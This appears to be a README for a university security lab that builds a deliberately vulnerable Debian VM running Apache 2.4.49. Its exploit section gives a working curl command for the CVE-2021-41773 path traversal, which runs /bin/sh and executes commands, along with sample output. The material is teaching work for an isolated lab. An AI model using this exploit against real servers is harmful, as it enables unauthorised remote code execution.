 # Files in this repo

## setup.sh

This file is intended to be executed as root on the guest VM. Do not run it on your host OS; it will do bad things.

This script will:
* Install sudo, build-essential, and the build dependencies for apache2
* Install NGINX, MariaDB, and php-fpm
* Add a default 404 page and abronsius.cpsc4270.local to NGINX
* Create the user `abronsius` (if not existing) and add it to the sudoers list
* Download, build, and install apache2 2.4.49 at `/home/abronsius/apache2`
* Configure apache2 to serve files and enable cgi-bin
* ... more coming later

TODO:
* Configure php-fpm
* Configure a website2.cpsc4270.local running some PHP software (find a good name for this)
* And more!

# VM OS

The OS is Debian 11.1 Bullseye but any Debian-based OS should also work. I don't recommend deviating from this choice in case there are compatibility issues, and any non-Debian OS will require installing and configuring everything manually. Download via [Torrent](https://cdimage.debian.org/debian-cd/current/amd64/bt-cd/debian-11.1.0-amd64-netinst.iso.torrent) or directly via [ISO](https://cdimage.debian.org/debian-cd/current/amd64/iso-cd/debian-11.1.0-amd64-netinst.iso). The sha256sum of the ISO is `8488abc1361590ee7a3c9b00ec059b29dfb1da40f8ba4adf293c7a30fa943eb2` to double check that you've obtained the correct file.

# VM Configuration

The VM can be installed using any software (qemu/kvm, VirtualBox, VMWare, etc.)
The only requirement is network access with its own IP address. This can (and should) be a totally local network. The VM will contain several serious security flaws and therefore should not be available over the Internet.

# Exploits

## Exploit Target 1: Apache

### Exploit 1: CVE-2021-41773

This vulnerability is trivial to exploit and results in directory traversal, local file inclusion, and remote code execution. This exploit takes advantage of a new form of URL normalisation added in this version of apache2 which did not appropriately check against URL-encoded paths, which in this instance allows moving up from the cgi-bin directory and executing arbitrary code on the remote server. This line brings the directory up to `/` and then executes `/bin/sh` and passes `echo;ls -alh /etc/passwd;whoami;uname -a` to the opened shell.

Remote code execution:
```sh
curl --path-as-is "http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo;ls -alh /etc/passwd;whoami;uname -a"
```

Example output:
```
-rw-r--r-- 1 root root 1.6K Oct 23 23:38 /etc/passwd
abronsius
Linux dbsec-vm-main 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64 GNU/Linux
```
